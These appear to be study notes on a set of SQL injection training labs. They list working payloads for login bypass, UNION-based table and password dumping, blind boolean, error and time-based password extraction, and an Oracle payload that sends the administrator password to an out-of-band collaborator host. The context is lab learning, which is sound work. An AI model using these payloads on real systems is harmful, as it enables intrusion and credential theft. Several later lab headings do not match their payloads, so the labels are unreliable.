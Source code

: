 # Set 1: SQLi
## Lab 1: Retrieval of hidden data
- End goal: display all products both released and unreleased.
- used ' or 1=1 --
## Lab 2: Allowing login bypass
- End Goal: perform SQLi attack and log in as the administrator user.
- username='administrator'--' and password='admin'
## Lab 3: Quering database type and version on Oracle
- End Goal - display the database version string
- ' order by 3 -- -> internal server error
- ' UNION SELECT 'a', 'a' from DUAL-- -> Oracle database
- ' UNION SELECT banner, NULL from v$version--
- SELECT banner FROM v$version
## Lab 4: Quering database type and version on MySQL and Microsoft
- End Goal - display the database version
- ' order by 3# -> internal server error
- ' UNION SELECT 'a', 'a'#
- ' UNION SELECT @@version, NULL#
SELECT @@version 
## Lab 5: Listing database contents on non-Oracle databases
- End Goals - Login as the administrator user
- ' order by 3-- -> Internal server error
- ' UNION select 'a', 'a'-- -> both columns accept type text
- ' UNION SELECT version(), NULL-- -> 200 OK  PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1)
- ' UNION SELECT table_name, NULL FROM information_schema.tables--
- ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'--
## Lab 6: Listing database contents on Oracle
- End Goals - Login as the administrator user 
- ' order by 3-- -> internal server error
- ' UNION select 'a', 'a' from DUAL--
- ' UNION SELECT table_name, NULL FROM all_tables--
- ' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_JYPOMG'-- 
- ' UNION select USERNAME_LDANZP, PASSWORD_DYZWEQ from USERS_JYPOMG--
## Lab 7: UNION attack, determining the number of columns returned by the query
- End Goal: determine the number of columns returned by the query. 
- select ? from table1 UNION select NULL -error -> incorrect number of columns
- select ? from table1 UNION select NULL, NULL, NULL -200 response code -> correct number of columns
## Lab 8: UNION attack, finding a column containing text
- End Goal: determine the number of columns returned by the query. 
- ' UNION select NULL, 'a', NULL--
## Lab 9: UNION attack, retrieving data from other tables
- End Goal - Output the usernames and passwords in the users table and login as the administrator user.
- ' order by 3-- -> internal server error
- ' UNION select 'a', 'a'-- -> both columns are of data type string
- ' UNION select username, password from users--
## Lab 10: UNION attack, retrieving multiple values in a single column
- End Goal: retrieve all usernames and passwords and login as the administrator user.
- ' order by 3-- -> internal server error
- ' UNION select NULL, password from users--
- ' UNION select NULL, version()-- -> PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit
- ' UNION select NULL, username || '*' || password from users--
## Lab 11: Blind SQL injection with conditional responses
- End Goals - Output the password of the administrator
- select tracking-id from tracking-table where trackingId = '' and (select 'x' from users LIMIT 1)='x'--'
- select tracking-id from tracking-table where trackingId = '' and (select username from users where username='administrator')='administrator'--'
- select tracking-id from tracking-table where trackingId = '' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'
- select tracking-id from tracking-table where trackingId = '' and (select substring(password,2,1) from users where username='administrator')='a'--'
## Lab 12: Blind SQL injection with conditional errors
- End Goals - Output the administrator password
-  || (select '' from dual) ||  -> oracle database
-  || (select '' from users where username='administrator') || 
-  || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator') ||  -> Internal server error -> administrator user exists
-  || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and LENGTH(password)>19) || -> 200 response at 50 -> length of password is less than 50 -> 20 characters
-  || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator' and substr(password,1,1)='a') || -> w is not the first character of the password
## Lab 13: Visible error-based SQL injection
- End Goal - to prove that the field is vulnerable to blind SQLi (time based)
- ' || (SELECT pg_sleep(10))--
## Lab 14: Blind SQL injection with time delays
- End Goals - Exploit time-based blind SQLi to output the administrator password
- ' || pg_sleep(10)--
- ' || (select case when (username='administrator') then pg_sleep(10) else pg_sleep(-1) end from users)--
- ' || (select case when (username='administrator' and LENGTH(password)>20) then pg_sleep(10) else pg_sleep(-1) end from users)-- -> length of password is 20 characters
- ' || (select case when (username='administrator' and substring(password,1,1)='a') then pg_sleep(10) else pg_sleep(-1) end from users)--
## Lab 15: Blind SQL injection with time delays and information retrieval
- End Goal - Exploit SQLi and cause a DNS lookup
- ' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://cgwihkkm49dt3sgk9lufyyb6mxsngc.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
## Lab 16: Blind SQL injection with out-of-band interaction
- End Goals - Exploit SQLi to output the password of the administrator user
- ' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.akyjt827n6zbq7z8zvtfg6bft6zwnl.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
## Lab 17: Blind SQL injection with out-of-band data exfiltration
- End Goal - Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.
- 1 UNION SELECT username || '~'  || password  FROM users
## Lab 18: SQL injection with filter bypass via XML encoding
- End Goal - Exploit SQL injection to retrieve the admin user's credentials from the users table and log into their account.
- ' AND 1=CAST((SELECT password from users LIMIT 1) as int)--